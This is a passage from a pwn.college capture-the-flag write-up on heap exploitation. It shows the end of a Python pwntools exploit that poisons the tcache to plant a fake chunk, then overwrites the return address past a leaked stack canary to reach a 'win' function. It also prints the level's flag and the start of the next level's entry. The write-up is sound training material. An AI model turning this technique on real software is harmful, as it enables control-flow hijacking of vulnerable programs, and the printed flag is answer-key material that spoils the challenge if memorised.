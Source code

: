 ```python
    )
    scanf(0, payload)

    malloc(2, 0)
    malloc(3, 0)
    free(3)
    free(2)
    # raw_input("DEBUG")
    scanf(2, p64(fake_chunk))
    malloc(2, 0)
    malloc(2, 0)

    payload = flat(
        b"A" * 0xF8,
        canary,
        0,  # rbp
        win,
    )
    # raw_input("DEBUG")
    scanf(2, payload)
    quit()

    target.interactive()


if __name__ == "__main__":
    main()
```

## Flag

:spoiler[`pwn.college{0qLPdKCSvtNobMR6JycB-1ThuJM.0VO4MDL5cTNxgzW}`]

# Level 10.1

## Information

- Category: Pwn

## Description

> Leverage TCACHE exploits to gain control flow.

## Write-up

参见 [Level 10.0](#level-100)。

## Exploit
